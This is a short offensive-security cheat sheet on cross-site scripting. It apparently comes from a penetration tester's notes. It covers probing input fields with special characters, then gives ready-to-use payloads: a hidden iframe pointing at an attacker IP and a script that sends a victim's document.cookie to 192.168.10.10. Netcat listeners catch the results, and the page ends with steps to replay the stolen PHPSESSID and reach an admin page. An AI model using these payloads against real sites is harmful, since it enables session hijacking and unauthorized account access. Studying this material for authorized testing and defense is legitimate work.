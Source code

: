 # Cross Site Scripting \(XSS\)

## Enumerating XSS

### **Find Input Fields**

Input fields may be found in the following examples:

* Search boxes
* Comments
* Post
* Forms

**Try inserting special characters to see if they are not filtered:**

```text
< >; ' " { } ;
```

* &lt; &gt;; = denote elements in HTML
* ' " = denote strings on JavaScript
* {} = function declarations of JavaScript
* ; = end of a statement on JavaScript

**If this character are not removed or encoded then it might be vulnerable to XSS:**

* URL Encoding
* HTML Encoding

**Then we might be able to code since we can use this special characters!**

## **XSS Attacks**

### Content Injection 

If we want to place content in the website and the site is vulnerable to XSS then we may be able to use some techniques to "inject" malicious content to the website.

#### iframe Method

The HTML &lt;iframe&gt; embeds another file within the current HTML document

```text
<iframe src=http://192.168.10.10/evil height="0" width="0"></iframe>
```

**The quotes ' " can affect this.**

Visit/Refresh the webpage that has the code and click on the iframe to receive connection back with:

```text
sudo nc -lvnp 80 
```

### Stealing Cookies

**Cookies can be set with several option flags:**

* Secure = Instructs the browser to only send the cookie over encrypted connections, such as HTTPS. 
* HttpOnly = Instructs the browser to deny JavaScript access to the cookie. If it set to **FALSE** we can use an XSS payload to steal the cookie.

#### Stealing Cookies Methodology

Setup a nc listener with the following command:

```text
nc -lvnp 80
```

Create the payload to capture the victim's cookie**:**

```text
<script>new Image().src="http://192.168.10.10/filename.jpg?output="+document.cookie;</script>
```

Add the cookie from the netcat into the Cooke-Editor Plugin:

{% embed url="https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/?src=search" %}

`Cookie Editor Plugin > Add > Name: PHPSESSID Value: <cookie_value> -> Save`

After saving the cookie visit the administrator or the unauthorized page:

```text
/admin-page.php
```

 

